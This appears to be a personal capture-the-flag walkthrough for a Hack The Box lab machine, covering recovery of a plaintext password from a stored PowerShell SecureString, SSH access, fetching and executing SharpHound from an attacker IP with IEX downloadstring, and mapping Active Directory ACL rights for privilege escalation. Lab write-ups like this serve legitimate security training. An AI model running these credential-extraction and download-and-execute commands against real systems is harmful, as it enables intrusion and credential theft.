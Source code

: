 
Password
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```

```
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
```

```
$user = "HTB\Tom"
```

```
$cred = New-Object System.Management.Automation.PSCredential($user,$pass)
```

```
$cred.GetNetworkCredential() | fl
```

![[Pasted image 20240510125918.png]]

```
1ts-mag1c!!!
```


Now will try to get an SSH shell
```
ssh tom@10.10.10.77
```

![[Pasted image 20240510130253.png]]

This means we have to run Bloodhound for that we have to use SharpHound.ps1
```
IWR -Uri http://10.10.16.20/SharpHound.ps1 -OutFile SharpHound.ps1
```

or
```
IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.20/SharpHound.ps1")
```

Not able to run the Bloodhound from the sharp hound function will see what mistake i am doing . Refer the PDF once to see how they have run the bloodhound.
```
Invoke-BloodHound -CollectionMethod All
```

We don't have to run this as there is some problem with .net version so will simply download the acl something from the tom
https://forum.hackthebox.com/t/sharphound-ps1-doesnt-work/266964

![[Pasted image 20240510163007.png]]

Made a smb share to copy the file
![[Pasted image 20240510164619.png]]
![[Pasted image 20240510164630.png]]
![[Pasted image 20240510164644.png]]

Will filter the data and see what data or info we get out of it.
![[Pasted image 20240510165611.png]]

After adding a filter we get a objectname herman@HTB.local who has write access.
![[Pasted image 20240511021329.png]]


```
ObjectName	ObjectType	ObjectGuid	PrincipalName	PrincipalType	ActiveDirectoryRights	ACEType	AccessControlType	IsInherited

herman@HTB.LOCAL	USER		nico@HTB.LOCAL	USER	WriteOwner		AccessAllowed	False
```

And Tom has write write access onver clair
![[Pasted image 20240511021637.png]]

And if we search with a Claire than we can say that it has access to Backup_Admins@HTB_LOCAL
![[Pasted image 20240511021845.png]]


```
net groups /domain
```
![[Pasted image 20240511023040.png]]

![[Pasted image 20240511023923.png]]
